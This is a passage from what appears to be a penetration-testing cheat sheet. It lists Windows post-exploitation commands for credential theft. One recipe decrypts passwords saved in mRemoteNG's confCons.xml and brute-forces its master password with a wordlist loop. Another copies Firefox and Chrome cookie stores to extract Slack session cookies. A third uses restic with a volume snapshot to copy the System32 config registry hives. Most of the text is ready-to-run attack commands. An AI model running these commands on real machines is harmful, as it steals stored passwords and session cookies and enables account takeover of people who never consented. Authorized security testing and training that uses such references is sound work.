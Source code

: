 ### Application Exploitation

#### mRemoteNG
```cmd
# Step 1: Find config file
%USERPROFILE%\APPDATA\Roaming\mRemoteNG\confCons.xml

# Step 2: Extract password hash from XML

# Step 3: Decrypt password
python3 mremoteng_decrypt.py -s "<password_hash>"
# With custom password
python3 mremoteng_decrypt.py -s "<password_hash>" -p <custom_password>
# Brute Force Custom Password
for password in $(cat /usr/share/wordlists/fasttrack.txt);do echo $password; python3 mremoteng_decrypt.py -s "<password_hash>" -p $password 2>/dev/null;done
```

#### Slack Cookie Extraction
```powershell
# Firefox cookies
copy $env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\cookies.sqlite .
# Extract Slack Cookie from Firefox Cookies Database
$ python3 cookieextractor.py --dbpath "/home/plaintext/cookies.sqlite" --host slack --cookie d

# Chrome cookies
copy "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Network\Cookies" "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Cookies"
Invoke-SharpChromium -Command "cookies slack.com"
```

#### Restic Backup
````powershell
# restic - Initialize Backup Directory
mkdir E:\restic2; restic.exe -r E:\restic2 init

# restic - Back up a Directory
$env:RESTIC_PASSWORD = 'Password'
restic.exe -r E:\restic2\ backup C:\SampleFolder

# restic - Back up a Directory with VSS
restic.exe -r E:\restic2\ backup C:\Windows\System32\config --use-fs-snapshot

# restic - Check Backups Saved in a Repository
restic.exe -r E:\restic2\ snapshots

# restic - Restore a Backup with ID
restic.exe -r E:\restic2\ restore <ID> --target C:\Restore
````

### Miscellaneous Techniques

